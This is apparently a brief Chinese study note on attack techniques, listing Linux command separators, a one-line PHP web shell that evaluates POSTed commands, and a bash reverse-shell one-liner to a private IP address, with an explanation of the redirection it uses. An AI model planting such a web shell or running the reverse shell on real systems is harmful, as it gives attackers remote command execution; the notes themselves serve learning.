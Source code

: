 ```yaml
---
title: 攻击方式
date: 2023-09-04 21:48:57
---
```

# 攻击方式

## Linux基础

```shell
&	都执行
;	都执行
&&	与前面成功才会执行后面
|	管道，前面输出作为后面输入
||	或，前面成功，后面不执行
```



## php攻击

```php
<?php
    eval($_POST["cmd"]);
?>
```

小马

### 反弹shell

```shell
bash -i >& /dev/tcp/192.168.25.144/8888 0>&1
```

 `>&`是对文件描述符的**拷贝**，是将0[标准输入]重定向到了1[标准输出]指向的位置，以写方式

`<&`以读方式



`>&`还会将标准错误输出合并到标准输出中




